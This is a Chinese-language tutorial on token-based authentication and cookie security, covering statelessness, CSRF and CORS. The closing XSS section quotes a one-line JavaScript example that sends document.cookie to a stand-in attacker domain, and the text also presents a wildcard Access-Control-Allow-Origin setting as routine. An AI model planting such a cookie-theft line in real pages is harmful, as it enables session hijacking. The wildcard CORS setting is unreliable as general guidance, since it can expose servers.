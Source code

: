 基于 Token 的身份验证是无状态的，我们不将用户信息存在服务器或 Session 中。这种概念解决了在服务端存储信息时的许多问题。

> NoSession 意味着你的程序可以根据需要去增减机器，而不用去担心用户是否登录。

基于 Token 的身份验证的过程如下:

1. 用户通过用户名和密码发送请求。
2. 程序验证
3. 程序返回一个签名的 token 给客户端。
4. 客户端储存 token,并且每次用于每次发送请求。
5. 服务端验证 token 并返回数据。

每一次请求都需要 token。token 应该在 HTTP 的头部发送从而保证了 Http 请求无状态。我们同样通过设置服务器属性 Access-Control-Allow-Origin:* ，让服务器能接受到来自所有域的请求。

Token 的优势

**无状态、可扩展：**

在客户端存储的 Tokens 是无状态的，并且能够被扩展。基于这种无状态和不存储 Session 信息，负载负载均衡器能够将用户信息从一个服务传到其他服务器上。

如果我们将已验证的用户的信息保存在 Session 中，则每次请求都需要用户向已验证的服务器发送验证信息(称为 Session 亲和性)。用户量大时，可能会造成一些拥堵。

** 安全性：**

请求中发送 token 而不再是发送 cookie 能够防止 CSRF(跨站请求伪造)。即使在客户端使用 cookie 存储 token，cookie 也仅仅是一个存储机制而不是用于认证。不将信息存储在 Session 中，让我们少了对 session 操作。

token 是有时效的，一段时间之后用户需要重新验证。我们也不一定需要等到 token 自动失效，token 有撤回的操作，通过 token revocataion 可以使一个特定的 token 或是一组有相同认证的 token 无效。

**可扩展性：**

Tokens 能够创建与其它程序共享权限的程序。例如，能将一个随便的社交帐号和自己的大号(Fackbook 或是 Twitter)联系起来。当通过服务登录 Twitter(我们将这个过程 Buffer)时，我们可以将这些 Buffer 附到 Twitter 的数据流上(we are allowing Buffer to post to our Twitter stream)。

使用 token 时，可以提供可选的权限给第三方应用程序。当用户想让另一个应用程序访问它们的数据，我们可以通过建立自己的 API，得出特殊权限的 token。

**多平台跨域：**

CORS(跨域资源共享)，对应用程序和服务进行扩展的时候，需要介入各种各种的设备和应用程序。

只要用户有一个通过了验证的 token，数据和资源就能够在任何域上被请求到。

```
Access-Control-Allow-Origin: *
```

## [安全性](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#安全)

这里主要是针对cookie的前端安全性来考虑的，Web storage主要是在相对应的场景来使用对应的storage对象就可以。

### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)攻击。

```JavaScript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
